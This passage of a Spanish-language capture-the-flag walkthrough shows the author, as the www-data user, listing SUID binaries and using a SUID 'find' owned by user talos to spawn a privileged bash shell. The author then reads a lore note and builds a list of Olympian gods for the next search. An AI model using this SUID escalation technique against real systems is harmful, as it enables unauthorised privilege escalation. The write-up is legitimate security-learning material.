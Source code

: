 Como somos el usuario www-data y no tenemos asignada una shell, vamos a revisar los binarios que existen con permisos SUID a ver si nos podemos aprovechar:

~~~bash
www-data@principle:/$ find / -perm -4000 -ls 2>/dev/null
    17610     52 -rwsr-xr--   1 root     messagebus    51272 Feb  8 08:21 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    26824    640 -rwsr-xr-x   1 root     root         653888 Feb  8 05:43 /usr/lib/openssh/ssh-keysign
      368     64 -rwsr-xr-x   1 root     root          62672 Mar 23 08:40 /usr/bin/chfn
      371     88 -rwsr-xr-x   1 root     root          88496 Mar 23 08:40 /usr/bin/gpasswd
     2366     60 -rwsr-xr-x   1 root     root          59704 Mar 23 06:02 /usr/bin/mount
      372     68 -rwsr-xr-x   1 root     root          68248 Mar 23 08:40 /usr/bin/passwd
    31649    276 -rwsr-xr-x   1 root     root         281624 Mar  8 15:17 /usr/bin/sudo
     2293    220 -rwsr-xr-x   1 talos    root         224848 Jan  8 13:07 /usr/bin/find
     4689     72 -rwsr-xr-x   1 root     root          72000 Mar 23 06:02 /usr/bin/su
      369     52 -rwsr-xr-x   1 root     root          52880 Mar 23 08:40 /usr/bin/chsh
     2368     36 -rwsr-xr-x   1 root     root          35128 Mar 23 06:02 /usr/bin/umount
      598     48 -rwsr-xr-x   1 root     root          48896 Mar 23 08:40 /usr/bin/newgrp
~~~

Bueno, ahí vemos en primera instancia que hay un binario que pertenece a **talos**, que es nada más y nada menos que *find*. De esta forma, vamos como siempre a nuestro buen amigo <https://gtfobins.github.io/gtfobins/find/#suid> y vamos a explotarlo:

~~~bash
www-data@principle:/home$ cd /usr/bin/    
www-data@principle:/usr/bin$ ./find . -exec /bin/bash -p \; -quit
bash-5.2$ id
uid=33(www-data) gid=33(www-data) euid=1000(talos) groups=33(www-data)
~~~

Bien, nos hemos convertido en talos, así que vamos a ver qué nos encontramos en su directorio de trabajo:

~~~bash
bash-5.2$ cd /home/talos
bash-5.2$ ls
note.txt
bash-5.2$ cat note.txt 
Congratulations! You have made it this far thanks to the manipulated file I left you, I knew you would make it!
Now we are very close to finding this false God Elohim.
I left you a file with the name of one of the 12 Gods of Olympus, out of the eye of Elohim ;)
The tool I left you is still your ally. Good luck to you.
~~~

Siguiendo con el lore de la antigua Grecia nos habla de los 12 Dioses del Olimpo, por lo que realizando una búsqueda en Google podemos copiarlos directamente a un archivo de texto. De esta forma, crearemos un script que nos realice un find para cada línea del listado:

~~~
bash-5.2$ cat dioses.txt 
Zeus
Hera
Athena
Apollo
Poseidon
Ares
Artemis
Demeter
Aphrodite
Dionysos
Hermes
Hephaistos
~~~
